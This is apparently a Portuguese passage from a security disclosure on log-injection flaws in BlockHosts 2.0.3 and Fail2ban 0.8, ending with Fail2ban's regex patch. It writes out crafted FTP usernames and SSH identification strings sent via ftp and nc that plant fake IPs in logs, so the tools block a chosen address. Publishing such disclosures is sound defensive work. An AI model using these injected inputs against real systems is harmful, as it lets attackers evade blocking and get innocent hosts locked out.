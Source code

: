 A última versão do [BlockHosts](http://www.aczoom.com/cms/blockhosts) (2.0.3) também é vulnerável a log injection em logs do SSH e do vsftpd. O motivo é o mesmo do DenyHosts: uma expressão regular muito abrangente.  
`<br></br>root@slacker:~# ftp 192.168.3.4<br></br>220 Welcome to labs ossec candy FTP service.<br></br>Name (192.168.2.3:root): lala] FAIL LOGIN: Client “2.3.4.54?<br></br>..<br></br>`

Dando uma olhada nos logs:  
`<br></br>Mon Jun 2 21:06:02 2007 [pid 1452] [lala] FAIL LOGIN: Client “2.3.4.54? ] FAIL LOGIN: Client “192.168.3.1?<br></br>`

Se nós digitarmos um nome de usuário modificar para injetar um endereço IP, ele irá bloquear o endereço IP falso ao invés do IP verdadeiro.  
`<br></br>root@slacker:~# cat /etc/hosts.deny<br></br>#—- BlockHosts Additions<br></br>ALL: 2.3.4.54 : deny<br></br>..<br></br>#—- BlockHosts Additions<br></br>`

Em relação aos logs do SSH, o problema é o mesmo do DenyHosts. Se nós injetarmos qualquer dado no campo de identificação do protocolo, o BlockHosts irá trabalhar apenas com o IP falso, fornecido pelo usuário (o exploit desenvolvido para o DenyHosts vai funcionar também, apenas irá precisar de pequenas mudanças).  
`<br></br>dcid@enigma:~$ nc 192.168.5.1 22<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>sshd[123]: User myself from 1.5.6.7 not allowed<br></br>Protocol mismatch.<br></br>`

Dando uma olhada nos logs:  
`<br></br>Jun 4 14:49:46 slacker sshd[4153]: Bad protocol version identification ’sshd[123]: User myself from 1.5.6.7 not allowed ‘ from 10.1.1.14<br></br>`  
`<br></br>root@slacker:~# cat /etc/hosts.deny<br></br>#—- BlockHosts Additions<br></br>ALL: 1.5.6.7 : deny<br></br>..<br></br>#—- BlockHosts Additions<br></br>`

\*O autor do BlockHosts, Avinash Chopde, já lançou um [patch](http://www.ossec.net/en/attacking-loganalysis.html#patches) para a ferramenta.

A última versão do [Fail2ban](http://www.fail2ban.org/), 0.8, é vulnerável às mesmas log injections no log do SSH do DenyHosts e BlockHosts. Ele procura pela mensagem “ROOT LOGIN REFUSED” em qualquer lugar nos logs e, como já foi exemplificado, podemos fazer uma injection facilmente a mensagem “bad protocol identification” do SSH.  
`<br></br>dcid@enigma:~$ nc 192.168.5.1 22<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>ROOT LOGIN REFUSED hi FROM 1.5.6.7<br></br>Protocol mismatch.<br></br>`

O log fica:  
`<br></br>Jun 4 14:49:46 slacker sshd[4153]: Bad protocol version identification ‘ROOT LOGIN REFUSED hi FROM 1.5.6.7 ‘ from 10.1.1.14<br></br>`

\*O autor do Fail2ban, Cyril Jaquier, já disponibilizou um [patch](http://www.ossec.net/en/attacking-loganalysis.html#patches) para a ferramenta.

\*\*Esta falha é similar à [CVE-2006-6302](http://nvd.nist.gov/nvd.cfm?cvename=CVE-2006-6302), porém utilizar um vetor diferente. Obrigado a Cyril Jaquier por chamar minha atenção para isso.

**5 – Patches**  
O autor do Fail2ban, Cyril Jaquier, desenvolveu um patch que corrige o problema:  
`<br></br>— sshd.conf.orig 2007-06-05 22:00:24.000000000 +0200<br></br>+++ sshd.conf 2007-06-05 22:00:41.000000000 +0200<br></br>@@ -14,10 +14,10 @@<br></br># (?:::f{4,6}:)?(?PS+)<br></br># Values: TEXT<br></br>#<br></br>-failregex = Authentication failure for .* from<br></br>- Failed [-/w]+ for .* from<br></br>- ROOT LOGIN REFUSED .* FROM<br></br>- [iI](?:llegal|nvalid) user .* from<br></br>+failregex = Authentication failure for .* from $<br></br>+ Failed [-/w]+ for .* from $<br></br>+ ROOT LOGIN REFUSED .* FROM $<br></br>+ [iI](?:llegal|nvalid) user .* from $<br></br>`  
`<br></br># Option: ignoreregex<br></br># Notes.: regex to ignore. If this regex matches, the line is ignored.<br></br>`
